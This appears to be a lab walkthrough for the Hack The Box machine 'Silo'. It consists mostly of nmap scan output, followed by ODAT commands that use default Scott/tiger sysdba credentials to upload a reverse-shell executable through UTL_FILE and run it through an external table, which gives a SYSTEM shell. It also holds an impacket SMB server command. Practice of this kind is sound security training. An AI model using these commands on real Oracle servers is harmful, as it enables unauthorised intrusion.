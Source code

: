 ``` SILO - 10.10.10.82```

```
nmap -sS -p- -v 10.10.10.82 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-10 03:43 EDT
Initiating Ping Scan at 03:43
Scanning 10.10.10.82 [4 ports]
Completed Ping Scan at 03:43, 0.30s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:43
Completed Parallel DNS resolution of 1 host. at 03:43, 0.00s elapsed
Initiating SYN Stealth Scan at 03:43
Scanning 10.10.10.82 [65535 ports]
Discovered open port 80/tcp on 10.10.10.82
Discovered open port 135/tcp on 10.10.10.82
Discovered open port 445/tcp on 10.10.10.82
Discovered open port 139/tcp on 10.10.10.82
Increasing send delay for 10.10.10.82 from 0 to 5 due to 632 out of 2105 dropped probes since last increase.
SYN Stealth Scan Timing: About 4.93% done; ETC: 03:53 (0:09:58 remaining)
Stats: 0:00:46 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 5.40% done; ETC: 03:57 (0:13:43 remaining)
SYN Stealth Scan Timing: About 6.22% done; ETC: 04:04 (0:19:22 remaining)
SYN Stealth Scan Timing: About 6.85% done; ETC: 04:09 (0:24:14 remaining)
SYN Stealth Scan Timing: About 7.40% done; ETC: 04:14 (0:28:35 remaining)
SYN Stealth Scan Timing: About 8.07% done; ETC: 04:17 (0:31:43 remaining)
SYN Stealth Scan Timing: About 8.70% done; ETC: 04:21 (0:34:28 remaining)
SYN Stealth Scan Timing: About 9.38% done; ETC: 04:23 (0:36:34 remaining)
Stats: 0:04:25 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 10.53% done; ETC: 04:25 (0:37:40 remaining)
Stats: 0:04:29 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 10.63% done; ETC: 04:25 (0:37:41 remaining)
SYN Stealth Scan Timing: About 13.14% done; ETC: 04:21 (0:32:56 remaining)
Discovered open port 49155/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 15.49% done; ETC: 04:18 (0:29:55 remaining)
SYN Stealth Scan Timing: About 17.65% done; ETC: 04:17 (0:27:56 remaining)
Stats: 0:06:11 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan                                                                                            
SYN Stealth Scan Timing: About 18.52% done; ETC: 04:16 (0:27:12 remaining)                                                                                                 
Discovered open port 49162/tcp on 10.10.10.82                                                                                                                              
SYN Stealth Scan Timing: About 21.06% done; ETC: 04:15 (0:25:26 remaining)                                                                                                 
Stats: 0:06:51 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan                                                                                            
SYN Stealth Scan Timing: About 21.38% done; ETC: 04:15 (0:25:11 remaining)                                                                                                 
Discovered open port 49154/tcp on 10.10.10.82                                                                                                                              
SYN Stealth Scan Timing: About 23.89% done; ETC: 04:14 (0:23:34 remaining)
SYN Stealth Scan Timing: About 26.87% done; ETC: 04:13 (0:21:54 remaining)
SYN Stealth Scan Timing: About 30.07% done; ETC: 04:12 (0:20:21 remaining)
Discovered open port 49153/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 33.47% done; ETC: 04:11 (0:18:47 remaining)
Stats: 0:09:59 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 36.10% done; ETC: 04:11 (0:17:42 remaining)
SYN Stealth Scan Timing: About 40.61% done; ETC: 04:10 (0:16:18 remaining)
Discovered open port 49158/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 44.99% done; ETC: 04:10 (0:14:51 remaining)
Discovered open port 1521/tcp on 10.10.10.82
Discovered open port 49161/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 49.50% done; ETC: 04:10 (0:13:25 remaining)
Stats: 0:13:18 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.27% done; ETC: 04:09 (0:13:10 remaining)
Stats: 0:13:19 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.31% done; ETC: 04:09 (0:13:09 remaining)
Stats: 0:13:19 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.33% done; ETC: 04:09 (0:13:10 remaining)
SYN Stealth Scan Timing: About 54.75% done; ETC: 04:09 (0:11:48 remaining)
SYN Stealth Scan Timing: About 59.63% done; ETC: 04:09 (0:10:27 remaining)
Discovered open port 47001/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 64.66% done; ETC: 04:09 (0:09:07 remaining)
Stats: 0:16:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 64.83% done; ETC: 04:09 (0:09:04 remaining)
Stats: 0:16:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 64.88% done; ETC: 04:09 (0:09:04 remaining)
Stats: 0:16:59 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 66.33% done; ETC: 04:09 (0:08:37 remaining)
Discovered open port 5985/tcp on 10.10.10.82
Discovered open port 49152/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 71.11% done; ETC: 04:08 (0:07:20 remaining)
SYN Stealth Scan Timing: About 75.80% done; ETC: 04:08 (0:06:04 remaining)
SYN Stealth Scan Timing: About 80.75% done; ETC: 04:08 (0:04:47 remaining)
SYN Stealth Scan Timing: About 85.69% done; ETC: 04:08 (0:03:31 remaining)
Discovered open port 49160/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 90.74% done; ETC: 04:07 (0:02:15 remaining)
SYN Stealth Scan Timing: About 95.91% done; ETC: 04:07 (0:00:59 remaining)
Completed SYN Stealth Scan at 04:07, 1459.88s elapsed (65535 total ports)
Nmap scan report for 10.10.10.82
Host is up (0.22s latency).
Not shown: 65520 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1521/tcp  open  oracle
5985/tcp  open  wsman
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1460.37 seconds
           Raw packets sent: 72308 (3.182MB) | Rcvd: 67872 (2.739MB)
```
           


```
nmap -sC -sV -p 80,135,139,445,1521,5985,47001 10.10.10.82
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-10 04:35 EDT
Nmap scan report for 10.10.10.82
Host is up (0.22s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2m51s, deviation: 0s, median: 2m50s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-10T08:38:36
|_  start_date: 2020-05-10T06:29:17

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.00 seconds

```

```
nmap -sC -sV -p 49152,48153,49154,49155,49158,49160,49161,49162 10.10.10.82
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-10 04:50 EDT
Nmap scan report for 10.10.10.82
Host is up (0.22s latency).

PORT      STATE  SERVICE    VERSION
48153/tcp closed unknown
49152/tcp open   msrpc      Microsoft Windows RPC
49154/tcp open   msrpc      Microsoft Windows RPC
49155/tcp open   msrpc      Microsoft Windows RPC
49158/tcp open   msrpc      Microsoft Windows RPC
49160/tcp open   oracle-tns Oracle TNS listener (requires service name)
49161/tcp open   msrpc      Microsoft Windows RPC
49162/tcp open   msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.13 seconds

```

Learn that there are 2 oracle listeners here

1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)


49160/tcp open   oracle-tns Oracle TNS listener (requires service name)


```Odat```

-- sysdba is like sudo

```
https://github.com/quentinhardy/odat
```

```
./odat-libc2.12-x86_64 utlfile -s 10.10.10.82 -d XE -U Scott -P tiger --sysdba  --putFile "C:\Windows\Temp" rev1.exe /root/Desktop/OSCP-Prep/HTB/Windows/Silo/rev1.exe
```

```
./odat-libc2.12-x86_64 externaltable -s 10.10.10.82 -d XE -U Scott -P tiger --sysdba --exec "C:\Windows\Temp" rev1.exe
```
--- I get a direct system shell coz of the fact that the oracle db is running with system privileges



- The file I used to crack the password is accounts.txt

```
File Sharing
```

```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .
```

```
https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573
```